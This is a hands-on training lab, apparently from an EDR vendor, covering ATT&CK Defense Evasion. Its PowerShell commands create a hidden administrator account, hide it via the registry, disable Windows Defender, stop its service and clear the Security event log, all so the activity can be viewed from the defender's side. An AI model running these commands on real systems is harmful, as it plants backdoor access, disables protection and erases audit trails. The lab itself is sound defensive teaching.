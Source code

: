 ```yaml
---
Title: ATT&CK - Defense Evasion Phase
Description: Introduce post-compromise attack behaviors and EDR defenses
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 10
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |



## Instructions

Open a new terminal using `c:\Users\Public\rat.exe` or you can use the same terminal from the previous lab. You will be copying and pasting the lab commands into this terminal session.  If you close this window, remember to re-open `c:\Users\Public\rat.exe` before running any of the labs.

w> All labs require you to be running as an administrator. 


> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*

### 1. Creating a new user via net.exe
*Attackers will often create users on the machine and attempt to escalate the privledges to manipulate the machine. A common technique is to use the net.exe process to silently create new users as well as escalate privleges to local administrator rights.*

[ATT&CK T1136.001-Create Account-Local Account](https://attack.mitre.org/techniques/T1136/001/)
- Copy and paste this command into the terminal:
```Powershell
Write-Host -ForegroundColor Cyan "Initiating Persistence...creating local account"
Write-Host "Creating user 'notahacker' with admin rights..."
$cmd = @"
net user notahacker Password123! /add
net localgroup administrators notahacker /add
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd 
Write-Host -ForegroundColor Green "'notahacker' added to Administrators group successfully."

*Verify user was created.*

```Powershell
net users
```

*If command ran correctly should return*

```
User accounts for \\[USER-WORKSTATION]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
notahacker               [youraccount]                 WDAGUtilityAccount
```

### 2.Hiding the attacker from userlist - Defense Evasion
*Attackers will also make attempts to conceal the account, the command below, will alter the registry keys to remove the user from the userlist screen on a login screen*

- [ATT&CK T1564.002-Hide user from userlist](https://attack.mitre.org/techniques/T1564/002/)
- Copy and paste this command into the terminal:
```Powershell
$cmd = @"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /f /d 0 /v "notahacker"
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Green "'notahacker' removed from userlist."
```

### 3.Use Powershell to perform a **Disable Security Tools** technique
*The method we'll demonstrate today is to disable Windows Defender, often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
Set-MpPreference -DisableRealtimeMonitoring $true
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
```

### 4. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
sc.exe config WinDefend start= disabled
sc.exe stop WinDefend
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Red "Windows Defender Disabled"
```

### 5. Removing Evidence of Activity - wevtutil.exe clear logs
*After completing certain tasks, or as part of a script, users wil conceal their tracks in an attempt to hide their activity*

- [ATT&CK T1070.001 - Defense Evasion - Windows Event Logs Cleared](https://attack.mitre.org/techniques/T1070/001/)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Clearing Security Logs"
$cmd = @"
wevtutil.exe cl Security
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Cyan "Logs Cleared"
```
